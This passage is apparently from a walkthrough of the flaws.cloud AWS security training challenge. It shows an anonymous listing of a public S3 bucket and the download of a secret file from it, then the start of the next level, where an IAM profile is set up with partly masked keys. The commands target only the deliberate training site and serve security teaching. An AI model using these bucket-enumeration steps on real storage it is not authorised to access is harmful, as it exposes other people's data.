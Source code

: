We now know the region and the full URL. Let's try to connect again:

```bash
~ aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2
2017-03-14 03:00:38       2575 hint1.html
2017-03-03 04:05:17       1707 hint2.html
2017-03-03 04:05:11       1101 hint3.html
2018-07-10 17:47:16       3082 index.html
2018-07-10 17:47:16      15979 logo.png
2017-02-27 01:59:28         46 robots.txt
2017-02-27 01:59:30       1051 secret-dd02c7c.html
```

Download the secret HTML file and you'll get to level 2:

```bash
~ aws s3 cp  s3://flaws.cloud/secret-dd02c7c.html . --no-sign-request
```

##  Level 2

<blockquote>
  <p>The next level is fairly similar, with a slight twist. You're going to need your own AWS account for this. You just need the <a href="https://aws.amazon.com/s/dm/optimization/server-side-test/free-tier/free_np/">free tier</a></p>
</blockquote>

First we need to create a new user and generate an **Access Key ID** and a **Secret Access Key**. Go [here](https://console.aws.amazon.com/iam/home#/users) to do that.

<div class="box-note">
Note that setting the correct permissions for the user is very important. The new user would need at least <i>Read</i> permissions in order to read other buckets! To be sure, set it to <b>AmazonS3FullAccess</b>. The logic of evaluating permissions for bucket operations is described <a href="https://docs.aws.amazon.com/AmazonS3/latest/dev/access-control-auth-workflow-bucket-operation.html#example4-policy-eval-logic">here</a>.
</div>

There is no access initially with an unauthenticated user:

```bash
~ aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```

Configure the new profile:

```bash
~ aws configure --profile liv-test
AWS Access Key ID [None]: AKIA3AKED...
AWS Secret Access Key [None]: v44hSt...
Default region name [None]:
Default output format [None]:

~ aws configure list --profile liv-test
      Name                    Value             Type    Location
      ----                    -----             ----    --------
   profile                 liv-test           manual    --profile
access_key     ****************OBIT shared-credentials-file
secret_key     ****************S41s shared-credentials-file
    region                <not set>             None    None
```
